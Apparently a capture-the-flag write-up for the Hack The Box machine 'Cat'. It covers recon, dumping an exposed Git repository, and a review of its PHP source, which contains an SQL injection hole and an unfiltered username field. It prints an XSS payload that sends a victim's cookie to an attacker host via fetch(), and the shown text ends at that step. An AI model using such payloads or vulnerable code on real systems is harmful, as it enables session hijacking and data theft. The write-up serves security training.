


## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Directory Busting](#Directory-Busting)
    - [Dumping Git Repository](#Dumping-Git-Repository)
    - [Investigating Git Repository](#Investigating-Git-Repository)
- [Cross-Site Scripting (XSS)](#Cross-Site-Scripting-XSS)
    - [Stealing Session Cookie](#Stealing-Session-Cookie)
- [Foothold](#Foothold)
    - [SQL Injection (SQLi)](#SQL-Injection-SQLi)
    - [Cracking the Hash](#Cracking-the-Hash)
    - [SSH Access as rosa](#SSH-Access-as-rosa)
- [Enumeration](#Enumeration)
- [Privilege Escalation to axel](#Privilege-Escalation-to-axel)
- [user.txt](#usertxt)
- [Pivoting axel](#Pivoting-axel)
- [Port Forwarding](#Port-Forwarding)
- [Enumeration Port 3000/TCP](#Enumeration-Port-3000TCP)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2024-6886: Stored Cross-Site Scripting (XSS) in Gitea 1.22.0](#CVE-2024-6886-Stored-Cross-Site-Scripting-XSS-in-Gitea-1220)
    - [Password Reuse](#Password-Reuse)
- [root.txt](#roottxt)

## Summary

The box is mainly about `Cross-Site Scripting (XSS)` and `SQL Injection (SQLi)`. It starts off with a `website` that shows a `cat contest`. Through `directory busting` a exposed `Git repository` can be found which contains the `source code` of the `web application`. The code shows that nearly every field in the application has some sort of `bad character protection` besides the exception of the `username field`. Therefore is vulnerable to `Cross-Site Scripting (XSS)`. A well crafted payload allows to `steal` the `cookie` of `alex` and grants access to the `admin dashboard`. This allows to send `HTTP POST requests` through the `accept_cat.php` file directly to the underlying `sqlite3` database. The implementation does not use `prepared statements` and is vulnerable to `SQL Injection (SQLi)`. A saved `request` can be used to hand it over to `sqlmap` to `dump` data from the `database`. One of the `hashes` of the `database` is `already cracked` and allows to access the box via `SSH` as `rosa`. On the system a new user called `jobert` can be found. To `escalate privilges` to `axel` it is necessary to make use of the `group memberships` of `rosa`. She is member of the `adm` group. Remembering the fact that the `credentials` in the `login process` are send in `plaintext` points the path to the `logfiles` of `Apache2`. Those contain the `password` for `axel`. After switching to `axel` and after grabbing the `user.txt` a `email` shows the way for the `privilege escalation` to `root` through a `locally` running instance of `Gitea` which holds the code for a custom application called `employee management system`. The `email` also provides an `example link` to the `README.md` of the repository which contains the `username` of `administrator`. After double checking the locally available ports which shows that not only port `3000/TCP` for `Gitea` is open, and also port `25/TCP`, both ports are needed to be `forwarded` in order to `exploit` the `vulnerability` of `CVE-2024-6886` aka `Stored Cross-Site Scripting (XSS)` for the version `1.22.0` of `Gitea`. To pull off the exploit a `new repository` needs to be created in the context of `axel` which stores the payload for the `XSS` to steal every file within the `employee management system` repository. After preparing the second `client-side attack` of the box, the trigger is to send a `email` containing the `URL` to the `malicious repository` to the user `jobert` and after a few seconds the `encoded content` shows the `password` for the `administrator` which could be `reused` on `root` to grab the `root.txt` and pwn the box.

## Reconnaissance

### Port Scanning

As usual we started with a `port scan` including all `basic scripts` and `version enumeration`. It showed only port `22/TCP` and port `80/TCP` as open.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.73.41
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-02 11:33 CET
Nmap scan report for 10.129.73.41
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

Since there was a redirect to `http://cat.htb/` we added this one directly to our `/etc/hosts` file to start with the `enumeration` of the `website`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.73.41    cat.htb
```

### Enumeration of Port 80/TCP

On port `80/TCP` we found a `web application` which was designed around some sort of `cat contest`.

- [http://cat.htb/](http://cat.htb/)

The `tech stack` didn't showed anything useful.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://cat.htb/
http://cat.htb/ [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.73.41], Title[Best Cat Competition]
```

We moved on and clicked through the `website` and found a page to `register` a new `user` and a web form to `login` to the actual application.


### Directory Busting

Since we couldn't do much after `registering` and `logging` in as a random user, we moved on to `directory busting` and found a exposed `Git repository`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://cat.htb/

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_cat.htb/__25-02-02_11-39-31.txt

Target: http://cat.htb/

[11:39:31] Starting:                                                             
[11:39:33] 301 -  301B  - /.git  ->  http://cat.htb/.git/                   
[11:39:33] 403 -  272B  - /.git/                                            
[11:39:33] 403 -  272B  - /.git/branches/
[11:39:33] 200 -    7B  - /.git/COMMIT_EDITMSG
[11:39:33] 200 -   92B  - /.git/config
[11:39:33] 200 -   73B  - /.git/description
[11:39:33] 200 -   23B  - /.git/HEAD                                        
[11:39:33] 403 -  272B  - /.git/hooks/                                      
[11:39:33] 200 -    2KB - /.git/index                                       
[11:39:33] 403 -  272B  - /.git/info/
[11:39:33] 200 -  240B  - /.git/info/exclude                                
[11:39:33] 403 -  272B  - /.git/logs/                                       
[11:39:33] 200 -  150B  - /.git/logs/HEAD
[11:39:33] 301 -  311B  - /.git/logs/refs  ->  http://cat.htb/.git/logs/refs/
[11:39:33] 301 -  317B  - /.git/logs/refs/heads  ->  http://cat.htb/.git/logs/refs/heads/
[11:39:33] 200 -  150B  - /.git/logs/refs/heads/master
[11:39:33] 403 -  272B  - /.git/objects/                                    
[11:39:33] 403 -  272B  - /.git/refs/
[11:39:33] 301 -  312B  - /.git/refs/heads  ->  http://cat.htb/.git/refs/heads/
[11:39:33] 200 -   41B  - /.git/refs/heads/master
[11:39:33] 301 -  311B  - /.git/refs/tags  ->  http://cat.htb/.git/refs/tags/
[11:39:34] 403 -  272B  - /.htaccess.bak1                                   
[11:39:34] 403 -  272B  - /.htaccess.orig                                   
[11:39:34] 403 -  272B  - /.htaccess.sample
[11:39:34] 403 -  272B  - /.htaccess.save                                   
[11:39:34] 403 -  272B  - /.htaccess_extra                                  
[11:39:34] 403 -  272B  - /.htaccess_orig                                   
[11:39:34] 403 -  272B  - /.htaccess_sc
[11:39:34] 403 -  272B  - /.htpasswd_test                                   
[11:39:34] 403 -  272B  - /.htpasswds
[11:39:34] 403 -  272B  - /.httr-oauth
[11:39:34] 403 -  272B  - /.htaccessOLD2                                    
[11:39:34] 403 -  272B  - /.htaccessBAK
[11:39:34] 403 -  272B  - /.htaccessOLD                                     
[11:39:34] 403 -  272B  - /.htm                                             
[11:39:35] 403 -  272B  - /.ht_wsr.txt                                      
[11:39:35] 403 -  272B  - /.html                                            
[11:39:37] 403 -  272B  - /.php                                             
[11:39:48] 302 -    1B  - /admin.php  ->  /join.php                         
[11:40:08] 200 -    1B  - /config.php                                       
[11:40:10] 301 -  300B  - /css  ->  http://cat.htb/css/                     
[11:40:20] 301 -  300B  - /img  ->  http://cat.htb/img/                     
[11:40:25] 302 -    0B  - /logout.php  ->  /                                
[11:40:40] 403 -  272B  - /server-status                                    
[11:40:40] 403 -  272B  - /server-status/
[11:40:49] 301 -  304B  - /uploads  ->  http://cat.htb/uploads/             
[11:40:50] 403 -  272B  - /uploads/                                         
                                                                             
Task Completed
```

### Dumping Git Repository

We `dumped` the `Git repository` for further investigation using `git-dumper` after we set up the `pre-requisites` like a `virtual environment` to use the tool properly.

- [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.12.8.final.0-64 in 598ms
  creator CPython3Posix(dest=/home/kali/opt/01_information_gathering/git-dumper/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: PySocks==1.7.1, beautifulsoup4==4.12.3, certifi==2024.8.30, charset_normalizer==3.4.0, dulwich==0.22.6, idna==3.10, pip==24.3.1, requests==2.32.3, soupsieve==2.6, urllib3==2.2.3
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ source venv/bin/activate
```

```c
┌──(venv)─(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ pip3 install -r requirements.txt 
Requirement already satisfied: PySocks in ./venv/lib/python3.12/site-packages (from -r requirements.txt (line 1)) (1.7.1)
Requirement already satisfied: requests in ./venv/lib/python3.12/site-packages (from -r requirements.txt (line 2)) (2.32.3)
Requirement already satisfied: beautifulsoup4 in ./venv/lib/python3.12/site-packages (from -r requirements.txt (line 3)) (4.12.3)
Requirement already satisfied: dulwich in ./venv/lib/python3.12/site-packages (from -r requirements.txt (line 4)) (0.22.6)
Requirement already satisfied: charset-normalizer<4,>=2 in ./venv/lib/python3.12/site-packages (from requests->-r requirements.txt (line 2)) (3.4.0)
Requirement already satisfied: idna<4,>=2.5 in ./venv/lib/python3.12/site-packages (from requests->-r requirements.txt (line 2)) (3.10)
Requirement already satisfied: urllib3<3,>=1.21.1 in ./venv/lib/python3.12/site-packages (from requests->-r requirements.txt (line 2)) (2.2.3)
Requirement already satisfied: certifi>=2017.4.17 in ./venv/lib/python3.12/site-packages (from requests->-r requirements.txt (line 2)) (2024.8.30)
Requirement already satisfied: soupsieve>1.2 in ./venv/lib/python3.12/site-packages (from beautifulsoup4->-r requirements.txt (line 3)) (2.6)
```

```c
┌──(venv)─(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 git_dumper.py http://cat.htb/.git/ dump
[-] Testing http://cat.htb/.git/HEAD [200]
[-] Testing http://cat.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://cat.htb/.gitignore [404]
[-] http://cat.htb/.gitignore responded with status code 404
[-] Fetching http://cat.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://cat.htb/.git/description [200]
[-] Fetching http://cat.htb/.git/hooks/post-commit.sample [404]
[-] http://cat.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://cat.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://cat.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://cat.htb/.git/hooks/post-receive.sample [404]
[-] http://cat.htb/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://cat.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://cat.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://cat.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://cat.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://cat.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://cat.htb/.git/hooks/update.sample [200]
[-] Fetching http://cat.htb/.git/info/exclude [200]
[-] Fetching http://cat.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://cat.htb/.git/objects/info/packs [404]
[-] http://cat.htb/.git/objects/info/packs responded with status code 404
[-] Fetching http://cat.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://cat.htb/.git/index [200]
[-] Finding refs/
[-] Fetching http://cat.htb/.git/FETCH_HEAD [404]
[-] http://cat.htb/.git/FETCH_HEAD responded with status code 404
[-] Fetching http://cat.htb/.git/HEAD [200]
[-] Fetching http://cat.htb/.git/ORIG_HEAD [404]
[-] http://cat.htb/.git/ORIG_HEAD responded with status code 404
[-] Fetching http://cat.htb/.git/config [200]
[-] Fetching http://cat.htb/.git/logs/refs/heads/master [200]
[-] Fetching http://cat.htb/.git/logs/HEAD [200]
[-] Fetching http://cat.htb/.git/info/refs [404]
[-] http://cat.htb/.git/info/refs responded with status code 404
[-] Fetching http://cat.htb/.git/logs/refs/remotes/origin/HEAD [404]
[-] http://cat.htb/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://cat.htb/.git/logs/refs/remotes/origin/master [404]
[-] http://cat.htb/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://cat.htb/.git/packed-refs [404]
[-] http://cat.htb/.git/packed-refs responded with status code 404
[-] Fetching http://cat.htb/.git/refs/heads/master [200]
[-] Fetching http://cat.htb/.git/refs/remotes/origin/HEAD [404]
[-] http://cat.htb/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://cat.htb/.git/refs/remotes/origin/master [404]
[-] http://cat.htb/.git/refs/remotes/origin/master responded with status code 404
[-] Fetching http://cat.htb/.git/refs/stash [404]
[-] http://cat.htb/.git/refs/stash responded with status code 404
[-] Fetching http://cat.htb/.git/refs/wip/index/refs/heads/master [404]
[-] http://cat.htb/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://cat.htb/.git/refs/wip/wtree/refs/heads/master [404]
[-] http://cat.htb/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://cat.htb/.git/logs/refs/stash [404]
[-] http://cat.htb/.git/logs/refs/stash responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://cat.htb/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://cat.htb/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://cat.htb/.git/objects/09/7745b30047ab3d3e6e0c5239c2dfd5cac308a5 [200]
[-] Fetching http://cat.htb/.git/objects/91/92afa265e9e73f533227e4f118f882615d3640 [200]
[-] Fetching http://cat.htb/.git/objects/0c/be0133fb00b13165bd7318e42e17f322daac7f [200]
[-] Fetching http://cat.htb/.git/objects/56/03bb235ee634e1d7914def967c26f9dd0963bb [200]
[-] Fetching http://cat.htb/.git/objects/88/12266cb97013f416c175f9a9fa08aae524c92a [200]
[-] Fetching http://cat.htb/.git/objects/b8/7b8c6317f8e419dac2c3ce3517a6c93b235028 [200]
[-] Fetching http://cat.htb/.git/objects/26/bd62c92bcf4415f2b82514bbbac83936c53cb5 [200]
[-] Fetching http://cat.htb/.git/objects/b7/df8d295f9356332f9619ae5ecec3230a880ef2 [200]
[-] Fetching http://cat.htb/.git/objects/8c/2c2701eb4e3c9a42162cfb7b681b6166287fd5 [200]
[-] Fetching http://cat.htb/.git/objects/38/660821153b31dbbee89396eacf974c095ab0dc [200]
[-] Fetching http://cat.htb/.git/objects/58/62718ef94b524f3e36627e6f2eae1e3570a7f4 [200]
[-] Fetching http://cat.htb/.git/objects/64/d98c5af736de120e17eff23b17e22aad668718 [200]
[-] Fetching http://cat.htb/.git/objects/31/e87489c5f8160f895e941d00087bea94f21315 [200]
[-] Fetching http://cat.htb/.git/objects/9a/dbf70baf0e260d84d9c8666a0460e75e8be4a8 [200]
[-] Fetching http://cat.htb/.git/objects/c9/e281ffb3f5431800332021326ba5e97aeb2764 [200]
[-] Fetching http://cat.htb/.git/objects/9b/e1a76f22449a7876a712d34dc092f477169c36 [200]
[-] Fetching http://cat.htb/.git/objects/6f/ae98c9ae65a9ecbf37e821e7bafb48bcdac2bc [200]
[-] Fetching http://cat.htb/.git/objects/cf/8166a8873d413e6afd88fa03305880e795a2c6 [200]
[-] Fetching http://cat.htb/.git/objects/0f/fa90ae01a4f353aa2f6b2de03c212943412222 [200]
[-] Fetching http://cat.htb/.git/objects/48/21d0cd8fecc8c3579be5735b1aab69f1637c86 [200]
[-] Fetching http://cat.htb/.git/objects/7b/a662bf012ce71d0db9e86c80386b7ae0a54ea1 [200]
[-] Running git checkout .
```

### Investigating Git Repository

The `Git repository` contained the `web application` and gave us some insights to `vulnerable endpoints` and `system weaknesses`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Cat/files/dump]
└─$ ls -la
total 56
drwxrwx--- 1 root vboxsf  288 Feb  2 11:44 .
drwxrwx--- 1 root vboxsf    8 Feb  2 11:45 ..
-rwxrwx--- 1 root vboxsf  893 Feb  2 11:44 accept_cat.php
-rwxrwx--- 1 root vboxsf 4496 Feb  2 11:44 admin.php
-rwxrwx--- 1 root vboxsf  277 Feb  2 11:44 config.php
-rwxrwx--- 1 root vboxsf 6676 Feb  2 11:44 contest.php
drwxrwx--- 1 root vboxsf   20 Feb  2 11:44 css
-rwxrwx--- 1 root vboxsf 1136 Feb  2 11:44 delete_cat.php
drwxrwx--- 1 root vboxsf  128 Feb  2 11:44 .git
drwxrwx--- 1 root vboxsf   50 Feb  2 11:44 img
drwxrwx--- 1 root vboxsf   50 Feb  2 11:44 img_winners
-rwxrwx--- 1 root vboxsf 3509 Feb  2 11:44 index.php
-rwxrwx--- 1 root vboxsf 5891 Feb  2 11:44 join.php
-rwxrwx--- 1 root vboxsf   79 Feb  2 11:44 logout.php
-rwxrwx--- 1 root vboxsf 2725 Feb  2 11:44 view_cat.php
-rwxrwx--- 1 root vboxsf 1676 Feb  2 11:44 vote.php
drwxrwx--- 1 root vboxsf   60 Feb  2 11:44 winners
-rwxrwx--- 1 root vboxsf 3374 Feb  2 11:44 winners.php
```

We also found a `username` and the corresponding `email address`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Cat/files/dump]
└─$ git log
commit 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 (HEAD -> master)
Author: Axel <axel2017@gmail.com>
Date:   Sat Aug 31 23:26:14 2024 +0000

    Cat v1
```

| Username | Email              |
| -------- | ------------------ |
| axel2017 | axel2017@gmail.com |

To make our investigation easier, we checked the only available `commit` but redirected the output to a file.

```c
┌──(kali㉿kali)-[/media/…/Machines/Cat/files/dump]
└─$ git show 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 > output.txt
```

```c
commit 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5
Author: Axel <axel2017@gmail.com>
Date:   Sat Aug 31 23:26:14 2024 +0000

    Cat v1

diff --git a/accept_cat.php b/accept_cat.php
new file mode 100755
index 0000000..5603bb2
--- /dev/null
+++ b/accept_cat.php
@@ -0,0 +1,28 @@
+<?php
+include 'config.php';
+session_start();
+
+if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
+    if ($_SERVER["REQUEST_METHOD"] == "POST") {
+        if (isset($_POST['catId']) && isset($_POST['catName'])) {
+            $cat_name = $_POST['catName'];
+            $catId = $_POST['catId'];
+            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
+            $pdo->exec($sql_insert);
+
+            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
+            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
+            $stmt_delete->execute();
+
+            echo "The cat has been accepted and added successfully.";
+        } else {
+            echo "Error: Cat ID or Cat Name not provided.";
+        }
+    } else {
+        header("Location: /");
+        exit();
+    }
+} else {
+    echo "Access denied.";
+}
+?>
diff --git a/admin.php b/admin.php
new file mode 100755
index 0000000..64d98c5
--- /dev/null
+++ b/admin.php
@@ -0,0 +1,146 @@
+<?php
+session_start();
+
+include 'config.php';
+
+// Check if the user is logged in
+if (!isset($_SESSION['username']) || $_SESSION['username'] !== 'axel') {
+    header("Location: /join.php");
+    exit();
+}
+
+// Fetch cat data from the database
+$stmt = $pdo->prepare("SELECT * FROM cats");
+$stmt->execute();
+$cats = $stmt->fetchAll(PDO::FETCH_ASSOC);
+?>
<--- CUT FOR BREVITY --->
+    <div class="navbar">
+        <a href="/">Home</a>
+        <a href="/vote.php">Vote</a>
+        <a href="/contest.php">Contest</a>
+        <?php
+        if (isset($_SESSION['username'])) {
+            // If user is logged in
+            if ($_SESSION['username'] == 'axel') {
+                // If the logged in user is admin
+                echo '<a href="/winners.php">Winners</a>';
+                echo '<a href="/admin.php">Admin</a>';
+            }
+            echo '<a href="/logout.php">Logout</a>';
+        } else {
+            // If no user is logged in
+            echo '<a href="/join.php">Join</a>';
+        }
+        ?>
+</div>
<--- CUT FOR BREVITY --->
diff --git a/config.php b/config.php
new file mode 100755
index 0000000..31e8748
--- /dev/null
+++ b/config.php
@@ -0,0 +1,13 @@
+<?php
+// Database configuration
+$db_file = '/databases/cat.db';
+
+// Connect to the database
+try {
+    $pdo = new PDO("sqlite:$db_file");
+    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
+} catch (PDOException $e) {
+    die("Error: " . $e->getMessage());
+}
+?>
<--- CUT FOR BREVITY --->
+// Function to check for forbidden content
+function contains_forbidden_content($input, $pattern) {
+    return preg_match($pattern, $input);
+}
+
+// Check if the form has been submitted
+if ($_SERVER["REQUEST_METHOD"] == "POST") {
+    // Capture form data
+    $cat_name = $_POST['cat_name'];
+    $age = $_POST['age'];
+    $birthdate = $_POST['birthdate'];
+    $weight = $_POST['weight'];
+
+    $forbidden_patterns = "/[+*{}',;<>()\\[\\]\\/\\:]/";
+
+    // Check for forbidden content
+    if (contains_forbidden_content($cat_name, $forbidden_patterns) ||
+        contains_forbidden_content($age, $forbidden_patterns) ||
+        contains_forbidden_content($birthdate, $forbidden_patterns) ||
+        contains_forbidden_content($weight, $forbidden_patterns)) {
+        $error_message = "Your entry contains invalid characters.";
+    } else {
+        // Generate unique identifier for the image
+        $imageIdentifier = uniqid() . "_";
+
+        // Upload cat photo
+        $target_dir = "uploads/";
+        $target_file = $target_dir . $imageIdentifier . basename($_FILES["cat_photo"]["name"]);
+        $uploadOk = 1;
+        $imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
+
+        // Check if the file is an actual image or a fake file
+        $check = getimagesize($_FILES["cat_photo"]["tmp_name"]);
+        if($check !== false) {
+            $uploadOk = 1;
+        } else {
+            $error_message = "Error: The file is not an image.";
+            $uploadOk = 0;
+        }
+
+        // Check if the file already exists
+        if (file_exists($target_file)) {
+            $error_message = "Error: The file already exists.";
+            $uploadOk = 0;
+        }
+
+        // Check file size
+        if ($_FILES["cat_photo"]["size"] > 500000) {
+            $error_message = "Error: The file is too large.";
+            $uploadOk = 0;
+        }
+
+        // Allow only certain file formats
+        if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
+            $error_message = "Error: Only JPG, JPEG, and PNG files are allowed.";
+            $uploadOk = 0;
+        }
+
+        // Check if $uploadOk is set to 0 by an error
+        if ($uploadOk == 0) {
+        } else {
+            if (move_uploaded_file($_FILES["cat_photo"]["tmp_name"], $target_file)) {
+                // Prepare SQL query to insert cat data
+                $stmt = $pdo->prepare("INSERT INTO cats (cat_name, age, birthdate, weight, photo_path, owner_username) VALUES (:cat_name, :age, :birthdate, :weight, :photo_path, :owner_username)");
+                // Bind parameters
+                $stmt->bindParam(':cat_name', $cat_name, PDO::PARAM_STR);
+                $stmt->bindParam(':age', $age, PDO::PARAM_INT);
+                $stmt->bindParam(':birthdate', $birthdate, PDO::PARAM_STR);
+                $stmt->bindParam(':weight', $weight, PDO::PARAM_STR);
+                $stmt->bindParam(':photo_path', $target_file, PDO::PARAM_STR);
+                $stmt->bindParam(':owner_username', $_SESSION['username'], PDO::PARAM_STR);
+                // Execute query
+                if ($stmt->execute()) {
+                    $success_message = "Cat has been successfully sent for inspection.";
+                } else {
+                    $error_message = "Error: There was a problem registering the cat.";
+                }
+            } else {
+                $error_message = "Error: There was a problem uploading the file.";
+            }
+        }
+    }
+}
+?>
<--- CUT FOR BREVITY --->
```

We found out that a `sqlite3` database was used for the back-end connection to store the data.

```c
+// Connect to the database
+try {
+    $pdo = new PDO("sqlite:$db_file");
+    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
+} catch (PDOException $e) {
+    die("Error: " . $e->getMessage());
+}
```

There was also a check for `forbitten characters` in the `upload function` for the cat pictures. Nearly every field got `filtered` besides the `username` in the `user creation function`. This gave us the idea of a potential `Cross-Site Scripting (XSS)` vulnerability.

```c
+// Check if the form has been submitted
+if ($_SERVER["REQUEST_METHOD"] == "POST") {
+    // Capture form data
+    $cat_name = $_POST['cat_name'];
+    $age = $_POST['age'];
+    $birthdate = $_POST['birthdate'];
+    $weight = $_POST['weight'];
+
+    $forbidden_patterns = "/[+*{}',;<>()\\[\\]\\/\\:]/";
+
+    // Check for forbidden content
+    if (contains_forbidden_content($cat_name, $forbidden_patterns) ||
+        contains_forbidden_content($age, $forbidden_patterns) ||
+        contains_forbidden_content($birthdate, $forbidden_patterns) ||
+        contains_forbidden_content($weight, $forbidden_patterns)) {
+        $error_message = "Your entry contains invalid characters.";
+    } else {
+        // Generate unique identifier for the image
+        $imageIdentifier = uniqid() . "_";
```

Furthermore the `accept_cat.php` didn't used `prepared statements` and therefore would be vulnerable to `SQL Injection (SQLi)`.

```c
+++ b/accept_cat.php
@@ -0,0 +1,28 @@
+<?php
+include 'config.php';
+session_start();
+
+if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
+    if ($_SERVER["REQUEST_METHOD"] == "POST") {
+        if (isset($_POST['catId']) && isset($_POST['catName'])) {
+            $cat_name = $_POST['catName'];
+            $catId = $_POST['catId'];
+            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
+            $pdo->exec($sql_insert);
+
+            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
+            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
+            $stmt_delete->execute();
+
+            echo "The cat has been accepted and added successfully.";
+        } else {
+            echo "Error: Cat ID or Cat Name not provided.";
+        }
+    } else {
+        header("Location: /");
+        exit();
+    }
+} else {
+    echo "Access denied.";
+}
+?>
```

## Cross-Site Scripting (XSS)

### Stealing Session Cookie

After investigating the code we started with the `Cross-Site Scripting (XSS)` attack to `steal` the `cookie` of `axel`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/03_web_application_analysis.md#cookie-stealing](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/03_web_application_analysis.md#cookie-stealing)

Our prepared `payload` was build to `send back` to `cookie` to our local `Python web server`.

```c
<script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>
```

We entered the `payload` as `username` with a random `email address` and `password` and logged in using the `payload` as `username`.


After that we filled out the values and `uploaded` a random cat picture to trigger the `client-side` part and make `axel` whatever he was designed to do.


Shortly after we performed the upload action, we received the `Base64 encoded` `session cookie` of `axel`.

```c
